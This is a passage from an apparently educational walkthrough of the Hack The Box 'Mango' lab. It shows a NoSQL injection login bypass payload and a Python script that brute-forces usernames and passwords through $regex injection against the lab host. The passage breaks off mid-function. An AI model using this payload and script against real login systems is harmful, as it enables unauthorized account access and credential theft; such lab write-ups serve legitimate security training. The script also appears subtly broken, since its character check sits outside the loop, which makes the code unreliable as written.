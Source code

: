 Putting in a username and password and clicking Login takes us back to the same page. We can send the request to Burp by intercepting the request after setting FoxyProxy to use Burp as the proxy. Once we have the request, we can forward to the Repeater tab. Sending the same request with a username of john and password of password results in a status of 200 \(OK\) and the same page. We can check if the login in vulnerable to SQL injection by adding a single quote after the username and the password, but it doesn't appear that it is.

The fact that the site provides search functionality and it is called Mango, which is very close to Mongo, as in Mongo DB suggests that is the technology it is using, so we can try doing NoSQL injection.

In Burp, we can alter the request to use the injection:

```text
username[$ne]=john&password[$ne]=john&login=login
```

The format reflects the fact that it is PHP interpreting the parameters and the parentheses after the variable tells PHP to interpret the variable username as an object which can act on the $ne regular expression.

Further enumeration of the site once logged on through this bypass doesn't reveal anything. However, we can use the injection to brute force usernames and passwords and to do this, we can write a Python program.

The code for this is as follows[\[4\]](exercise-writing-a-nosql-injection-password-fuzzer-for-the-mango-box.md):

```python
import requests
from cmd import Cmd

def inject(data):
  r = requests.post("http://staging-order.mango.htb/", 
                      data=data, allow_redirects=False)
  if r.status_code != 200:
    return True

def brute_user(user=""):
  secret = user 
  payload = ""
  while True:
    data = {"username[$regex]":"^" + payload + "$", 
            "password[$ne]":"rin", "login":"login"}
    if inject(data):
      print("")
      break

    # cycle through lowercase characters a-z
    for i in range(97,123):
      payload = secret + chr(i)
      print("\r" + payload, flush=False, end='')
      data = {"username[$regex]":"^" + payload, "password[$ne]":"rin", 
              "login":"login"}

    if inject(data):
      print("\r" + payload, flush=True, end='')
      secret = secret + chr(i)
      break
def brute_password(user=""):
  secret = ""
  payload = ""
  while True:
    data = {"username": user, "password[$regex]": "^" + payload + "$", 
            "login":"login"}

    if inject(data):
```